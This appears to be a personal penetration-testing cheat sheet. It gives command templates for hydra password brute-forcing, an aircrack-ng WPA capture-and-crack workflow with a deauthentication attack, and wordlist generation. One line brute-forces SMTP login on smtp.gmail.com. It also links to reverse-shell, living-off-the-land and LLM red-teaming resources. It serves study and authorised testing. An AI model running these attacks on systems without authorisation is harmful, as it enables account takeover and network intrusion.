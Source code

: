 # note_dump_games

Bruteforce
  - hydra
    - https://www.kali.org/tools/hydra/
    - https://youtu.be/-CMBoJ60K1A?t=910
    - Ex. ```hydra -l <username> -P <wordlist> <protocol>://<target.ip.here> -V -I -F -t <number of threads>```
  - aircrack (WPA)
    -  https://www.kali.org/tools/aircrack-ng/
    -  Ex.
      -  ```airmon-ng check kill```
      -  ```airmon-ng start <interface>```
        or
         ```ip link set <interface> down```
         ```iw <interface> set monitor none```
         ```ip link set <interface> up```
      -  ```airodump-ng <interface>```
      -  ```airodump-ng <interface> --channel <target channel> --bssid <target bssid> -w output```
      -  ```aireplay-ng --deauth 100 -a <target bssid> 0c <target mac> <interface>```
      -  ```aircrack-ng -w <worldlist> -b <target bssid> <cap file> -a2```
        or
         ```crunch [options] | aircrack-ng -b <target bssid> <cap file> -a2```
        or
         use hashcat

Wordlist generation
  - CeWL
    - https://www.kali.org/tools/cewl/
    - https://www.youtube.com/watch?v=ec1ZmW1YxqA
    - Ex. ```cewl --depth 2 --write path/to/wordlist.txt url```

  - Crunch
    - https://www.kali.org/tools/crunch/
    - https://www.youtube.com/watch?v=0ouVxR7hLvE
    - Ex. ```crunch 1 6 123456 --stdout | hydra -S -l [email protected] -v -V -e nsr -s 465 smtp.gmail.com smtp```

Command reference
  - TLDR
    -  https://tldr.inbrowser.app/
  - Reverse shells
    - https://www.revshells.com/
    - https://ub3rsec.github.io/pages/rev-shell-cheatsheet.html
    - https://0xffsec.com/handbook/shells/full-tty/
    - https://zweilosec.github.io/posts/upgrade-linux-shell/

Living off the land
  - https://lolbas-project.github.io/
  - https://gtfobins.github.io/
  - https://www.loldrivers.io/

Pentest Guides
  - https://book.hacktricks.xyz/
  - https://0xffsec.com/
  - https://www.stationx.net/how-to-use-aircrack-ng-tutorial/

LLM Stuff
  -  https://www.youtube.com/@intigriti
  -  https://www.promptfoo.dev/docs/red-team/

Hash reference
  - https://hashcat.net/wiki/doku.php?id=example_hashes
